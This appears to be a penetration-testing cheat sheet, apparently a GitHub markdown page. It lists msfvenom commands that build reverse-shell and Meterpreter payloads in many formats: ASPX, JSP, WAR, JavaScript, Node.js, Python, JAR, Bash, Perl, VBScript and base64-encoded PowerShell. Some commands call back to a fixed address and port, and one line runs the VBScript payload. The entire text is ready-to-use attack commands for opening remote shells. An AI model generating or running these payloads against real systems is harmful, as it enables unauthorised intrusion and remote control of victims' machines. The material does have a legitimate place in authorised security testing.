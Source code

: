 **Aspx**
```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f aspx -o payload.aspx
```

**jsp**
```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=your-ip lport=your-port -f raw > shell.jsp
```

**war**
```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=your-ip lport=your-port -f war > shell.war
```

**javascript**
```bash
msfvenom -p windows/shell_reverse_tcp lhost=your-ip lport=your-port -f js_le -e generic/none

msfvenom -p linux/x86/shell_reverse_tcp lhost=your-ip lport=your-port CMD=/bin/bash -f js_le -e generic/none
```

**Nodejs**
```bash
msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -f raw -o payload.js
```

#### scripting

**python**
```bash
msfvenom -p cmd/unix/reverse_python lhost=your-ip lport=your-port -f raw > shell.py
msfvenom -p python/shell_reverse_tcp lhost=your-ip lport=your-port -f raw
```

**jar**
```bash
msfvenom -p java/meterpreter/reverse_tcp lhost=your-ip lport=your-port -f raw -o shell.jar
```

**bash**
```bash
msfvenom -p cmd/unix/reverse_bash lhost=your-ip lport=your-port -f raw > shell.sh
```

**perl**
```bash
msfvenom -p cmd/unix/reverse_perl lhost=your-ip lport=your-port -f raw > shell.pl
```

**vbscript**
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=your-ip lport=your-port exitfunc=thread -f vbs -a x86 --platform windows > shell.vbs
C:\Documents and Settings\Administrator>cscript shell.vbs
```

**Powershell**
```bash
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1

msfvenom -a x86 --platform windows -p windows/powershell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -e cmd/powershell_base64 -i 3 -f raw -o x86_shell.ps1

msfvenom -a x64 --platform windows -p windows/x64/powershell_reverse_tcp LHOST=192.168.3.226 LPORT=8888 -e cmd/powershellbase64 -i 3 -f raw -o x64_shell.ps1
```
